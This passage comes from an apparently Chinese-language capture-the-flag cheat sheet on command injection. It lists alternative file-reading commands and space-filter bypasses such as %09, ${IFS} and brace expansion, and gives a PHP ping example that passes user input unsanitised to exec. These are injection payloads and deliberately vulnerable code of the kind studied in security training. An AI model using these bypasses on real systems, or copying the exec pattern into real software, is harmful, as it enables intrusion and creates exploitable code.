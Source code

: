 ```php
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
strings
rev	反过来输出文件内容
```



### 4、过滤空格

- %09（url传递）(`cat%09flag.php`)
- ${IFS}
- $IFS$9
- <>（`cat<>/flag`）
- <（`cat</flag`）      输入重定向
- {cat,flag}

在Linux bash中还可以使用{OS_COMMAND,ARGUMENT}来执行系统命令

```bash
eg.
{ls,}
{cat,flags}
{mv,flags,flag}
```





### 5、过滤目录分隔符 /

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/\//", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```
